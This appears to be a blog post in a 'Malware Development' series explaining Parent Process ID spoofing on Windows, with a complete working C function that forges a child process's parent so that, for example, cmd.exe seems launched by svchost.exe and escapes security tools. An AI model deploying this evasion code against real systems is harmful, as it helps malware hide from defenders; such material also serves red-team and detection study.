 ```yaml
---
layout: post
title: "Spoofing Parent Process ID (PPID)"
date: 2024-07-29 09:49:00 +0000
tags: [Malware Development]
categories: [Malware Development]
---
```


# Spoofing Parent Process ID (PPID)


Parent Process ID (PPID) spoofing is a technique used to manipulate the relationship between a child process and its parent process. This makes it appear as though the child process was initiated by a different, legitimate process.

This can be achieved by modifying the parent process ID, making it appear as though the process originated from a trusted source. For example, an Excel sheet spawning a \`cmd.exe\` process would typically raise suspicions with security solutions, but \`svchost.exe\` spawning a \`cmd.exe\` would not.

Let’s explore how to spoof the Parent Process ID (PPID) of a process.

Creating a process
-------------------

To spoof a process PPID, we first need to create a process using the [CreateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) WinAPI with the `EXTENDED_STARTUPINFO_PRESENT` flag set in the `dwCreationFlags` parameter. According to Microsoft documentation, this requires a [STARTUPINFOEX](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexw) structure in the `lpStartupInfo` parameter.

![Extended_startup](/assets/img/2024-07-16-png_spoofing_parent_process/startupinfo_present.png)

STARTUPINFOEX structure
-----------------------

The `STARTUPINFOEX` structure specifies the window station, desktop, standard handles, and attributes for a new process. Since it is responsible for defining attributes for a new process, it will be particularly useful for our purpose.

The structure `STARTUPINFOEX` is shown below.

```c++
typedef struct _STARTUPINFOEXW {
    STARTUPINFOW StartupInfo;
    LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXW, *LPSTARTUPINFOEXW;
```


*   **Startupinfo**: same as Startupinfo structure which was used to create a normal process.
*   **lpAttributeList**: An attribute list. This list is created by the [InitializeProcThreadAttributeList](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) function.

As the `InitializeProcThreadAttributeList` function creates an attribute list for the process in inside `STARTUPINFOEX` structure. we have to take a look at it.

InitializeProcThreadAttributeList
---------------------------------

[`InitializeProcThreadAttributeList`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) is responsible for Initializing the specified list of attributes for process and thread creation.

The `InitializeProcThreadAttributeList` function is shown below:

```c
BOOL InitializeProcThreadAttributeList(
  [out, optional] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwAttributeCount,
                  DWORD                        dwFlags,
  [in, out]       PSIZE_T                      lpSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list.
*   **dwAttributeCount**: The number of attributes to set.
*   **dwFlags**: This parameter is reserved and must be zero.
*   **lpSize**: This will return the size required to set the attributes.

The `dwAttributeCount`will be set to 1 since only one attribute is needed.

According to the microsoft the initial call to this function will return an error by design which will return the size required to allocate enough space for the data in the `lpAttributelist` buffer and call the function again to initialize the buffer. next the [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)function will be responsible for adding attributes to the list.

![Initialize_procthread](/assets/img/2024-07-16-png_spoofing_parent_process/remarks_initialize_proc_thread.png)


UpdateProcThreadAttribute
-------------------------

The [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) function is shown below

```c
BOOL UpdateProcThreadAttribute(
  [in, out]       LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwFlags,
  [in]            DWORD_PTR                    Attribute,
  [in]            PVOID                        lpValue,
  [in]            SIZE_T                       cbSize,
  [out, optional] PVOID                        lpPreviousValue,
  [in, optional]  PSIZE_T                      lpReturnSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list initialized by `InitializeProcThreadAttributeList`. This list contains attributes to be updated.
*   **dwFlags**: Reserved; must be zero.
*   **Attribute**: The attribute to update. For our spoofing of PPID the `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` is required.

*   **lpValue**: A pointer to the value for the attribute being updated. in our case of PPID spoofing it becomes the handle of the parent process.
*   **cbSize**: The size of the value pointed to by `lpValue`, in bytes.
*   **lpPreviousValue**: Optional. A pointer to receive the previous value of the attribute, if needed.
*   **lpReturnSize**: Optional. A pointer to receive the size of the previous attribute value returned in `lpPreviousValue`.

LOGIC
-----

1.  call `InitializeProcThreadAttributeList` to set the number of attributes to be set and allocate enough space for the attributelist.
2.  call `UpdateProcThreadAttribute` with `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` to initialize the attribute.
3.  call `CreateProcessW` with the `EXTENDED_STARTUPINFO_PRESENT` flag and utilize the `STARTUPINFOEXW` structure that has been initialized using `InitializeProcThreadAttributeList` and updated using `UpdateProcThreadAttribute`

ParentPIDSpoofing function
--------------------------

`ParentPIDSpoofing` is a function that creates process with Spoofed PPID.

parameters:

*   **hprocess**: handle of the parent process whose PID is to be spoofed.
*   **newprocessname**: name of the process to create.
*   **hnewprocess**: A pointer to the handle which receives handle to the newly created process.
*   **dwnewPID**: A pointer to the PID which receives PID of the newly created process.

```c

    BOOL ParentPIDSpoofing(handle hprocess, LPWSTR newprocessname, HANDLE* hnewprocess, DWORD *dwnewPID) {
    STARTUPINFOEXW SI = { 0 };
    PROCESS_INFORMATION PI = { 0 };
    SI.StartupInfo.cb = sizeof(STARTUPINFOW);
    SIZE_T Attributelist = 0;
    SI.StartupInfo.cb = sizeof(STARTUPINFOEXW);
    InitializeProcThreadAttributeList(NULL, 1, 0, &Attributelist);
    SI.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, Attributelist);
    if (SI.lpAttributeList == NULL) {
    printf("Heap alloc failed with error no %x\n", GetLastError());
    return FALSE;
    }
    if (!InitializeProcThreadAttributeList(SI.lpAttributeList, 1, 0, &Attributelist)) {
    printf("InitializeProcThreadAttirbuteList failed with error no %x\n", GetLastError());
    return FALSE;
    }
    if (!UpdateProcThreadAttribute(SI.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hprocess, sizeof(hprocess), NULL, NULL)) {
    printf("UpdateProcThreadAttirbute failed with error no %x\n", GetLastError());
    return FALSE;
    }
    if (!CreateProcessW(NULL, newprocessname, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &SI.StartupInfo, &PI)) {
    printf("The CreateprocessW failed with error no %x\n", GetLastError());
    return FALSE;
    }
    *hnewprocess = PI.hProcess;
    *dwnewPID = PI.dwProcessId;
    return TRUE;
    }
```


Execution
---------

Create the child process `Notepad.exe` with the parent process being `svchost.exe`, which has a PID of 4312.

`NOTE: svchost.exe is running with normal privileges.`

`Notepad.exe` appears to be spawned by `svchost.exe` .